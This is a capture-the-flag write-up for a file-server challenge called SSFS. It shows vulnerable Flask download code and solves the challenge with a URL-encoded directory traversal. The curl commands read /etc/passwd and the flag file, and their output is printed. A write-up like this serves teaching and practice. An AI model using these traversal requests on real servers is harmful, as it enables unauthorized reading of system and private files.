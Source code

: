 # SSFS
I made a file server to easily share my files with my friends. Nobody has hacked it yet, so I'm sure it's secure.

https://ssfs.challs.pwnoh.io

## Data
* [SSFS.zip](https://bctf-24-stage1.s3-us-east-2.amazonaws.com/d03847995755b8a1a8e2a5cb04047523a14740f8dcf724bf754706f233925d93/SSFS.zip)

## Solution
The website has the functionality to upload, search and download a file. The interesting part of the source code is the download part:
```python
@app.route('/download/<path:file_id>')
def download(file_id):
    file_id = filter_file_id(file_id)

    if file_id is None:
        return {'status': 'error', 'message': 'Invalid file id'}, 400

    if not os.path.exists('uploads/' + file_id):
        return {'status': 'error', 'message': 'File not found'}, 404
    
    if not os.path.isfile('uploads/' + file_id):
        return {'status': 'error', 'message': 'Invalid file id'}, 400

    return send_file('uploads/' + file_id, download_name=f"{file_id}.{file_exts.get(file_id, 'UNK')}")
```

The entered path is not further checked. The only check is if the file exists and if it's a file. So we can access any file that we want in the system, called Directory Traversal:
```
$ curl https://ssfs.challs.pwnoh.io/download/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2f%2fpasswd
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
$
```
_`%2e%2e%2f` is the url encoding for `../`_

From the source file, we know that there is file called `flag.txt`. So let's try to access it:
```
$ curl https://ssfs.challs.pwnoh.io/download/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fflag.txt
bctf{4lw4y5_35c4p3_ur_p4th5}
$
```

Useful links:
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md
* https://owasp.org/www-community/attacks/Path_Traversal
* https://en.wikipedia.org/wiki/Directory_traversal_attack
